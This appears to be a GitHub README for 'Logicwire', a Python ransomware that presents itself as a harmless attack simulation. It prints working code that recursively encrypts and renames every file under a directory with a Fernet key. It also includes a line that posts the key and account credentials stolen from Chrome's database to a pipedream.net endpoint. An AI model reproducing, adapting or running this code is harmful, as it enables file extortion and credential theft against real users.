 <img src="https://media.discordapp.net/attachments/768928242467340328/811300430985560124/fond-geometrique-3d-noir-low-low-noir_79145-393.jpg"><br><br><img src="https://forthebadge.com/images/badges/built-with-love.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/made-with-python.svg" height="40" length="40"> <img src="https://forthebadge.com/images/badges/fuck-it-ship-it.svg" height="40" length="40">
# Logicwire
Logicwire is a disguised version of ransomwares. It allows to simulate an attack, without being very dangerous.
# Victim POV
I put as unique folder the pit named "fichiers" because I did not have a windows vm.<br>
https://www.youtube.com/watch?v=y02J6HjoihA&feature=youtu.be&ab_channel=%26
# Attacker POV
<img src="https://media.discordapp.net/attachments/768928242467340328/811308563690684486/unknown.png?width=1154&height=670"><br>
<img src="https://media.discordapp.net/attachments/768928242467340328/811308892696739840/unknown.png?width=1443&height=386">
# Technical operation
### Avoid double encryption
It installs a .tmp signature in the Temp cache to avoid double encryption of files. And check if it is there, if he is present he only run the ransomware GUI.
```python3
tmp = str(tempfile.gettempdir())
signature = "cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp"
path = os.path.dirname(os.path.abspath(signature))
tmp_files = []
for root, dirs, files in os.walk(tmp):
        for file in files:
            tmp_files.append(file)

if signature in tmp_files:
        main()
else:
        file = open("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5.tmp", "w").write("cea4b847-c3af-48c9-8260-fsf45zd5f2qzd5")
        shutil.move(path + "\\" + signature, tmp + "\\" + signature)
        write_key()
        key = load_key()
```
### Symmetric encryption
A key is generated randomly with Fernet.generate_key() and use it to encrypt all files recursively, including the subdirectories etc...
```python3
f = Fernet(key)
subdirs = [x[0] for x in os.walk(dir)]
for dirdir in subdirs:
        for filename in glob.glob(os.path.join(dirdir, '*.*'), recursive=True):
            with open(filename, "rb") as file:
                file_data = file.read()
                encrypted_data = f.encrypt(file_data)
            with open(filename, "wb") as new:
                new.write(encrypted_data)

            extension = str(filename).split(".")[1]
            name = str(''.join(random.SystemRandom().choice(string.ascii_uppercase + string.digits) for _ in range(10)))
            os.rename(filename, dirdir + "/" + name + "." + extension)
```
### Accounts recovery
It steals the accounts by connecting to the chrome database and sends them back to a pipdream via POST API, then redirects them to the decided webmail.
```python3
r = requests.post("https://en54ygy2ikv5dtk.m.pipedream.net", data={"key": keydecrypt, "logs": rez}, headers={'Content - Type': 'application / json'})
```
